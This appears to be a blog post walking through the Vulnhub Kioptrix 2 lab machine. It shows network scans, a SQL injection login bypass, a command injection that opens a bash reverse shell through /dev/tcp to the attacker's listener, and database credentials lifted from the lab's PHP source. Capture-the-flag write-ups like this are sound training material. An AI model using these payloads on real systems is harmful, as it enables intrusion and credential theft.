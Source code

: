 ```yaml
---
layout: post
title:  "Vulnhub - Kioptrix 2"
date:   2017-04-19 18:19:00 +0100
categories: vulnhub kioptrix
image:
  feature: kioptrix2.jpg
  credit:
  creditlink:
---
```


{% highlight bash %}
root@kali:~# arp-scan -l
Interface: eth0, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.9 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/)
192.168.137.1	00:50:56:c0:00:01	VMware, Inc.
192.168.137.133	00:0c:29:9e:ff:2f	VMware, Inc.
192.168.137.254	00:50:56:fe:05:d2	VMware, Inc.

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9: 256 hosts scanned in 1.851 seconds (138.30 hosts/sec). 3 responded
{% endhighlight %}

{% highlight bash %}
root@kali:~# nmap -A 192.168.137.133

Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-04-19 19:24 BST
Nmap scan report for 192.168.137.133
Host is up (0.00019s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            855/udp  status
|_  100024  1            858/tcp  status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2017-04-19T15:15:02+00:00; -3h09m44s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:9E:FF:2F (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.19 ms 192.168.137.133

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.14 seconds
{% endhighlight %}

I didn't really know SQL Injection going into this, and I did end up looking up the solution

{% highlight mysql %}
' or 1=1 --
{% endhighlight %}

This is a pretty standard example of an SQL injection and gives us access to form allowing us to ping a device on the network.  This immediately suggested some form of command injection.  Since it's a vulnerable machine, it seemed fairly obvious that we could input some other command.  So lets try and spawn a reverse shell.

{% highlight bash %}
192.168.137.128 && bash -i >& /dev/tcp/192.168.137.128/1234 0>&1
{% endhighlight bash %}

Boom!  We have a shell.

{% highlight bash %}
root@kali:/usr/share/wordlists# nc -l -p 1234 -vvv
listening on [any] 1234 ...
192.168.137.133: inverse host lookup failed: Unknown host
connect to [192.168.137.128] from (UNKNOWN) [192.168.137.133] 32771
bash: no job control in this shell
bash-3.00$ ls
index.php
pingit.php
bash-3.00$ 
{% endhighlight bash %}

Let's have a look inside the php files and see if we see anything interesting.  Inside index.php after a little searching we find some credentials to the local mysql database.

{%highlight php %}
mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
{%endhighlight%}
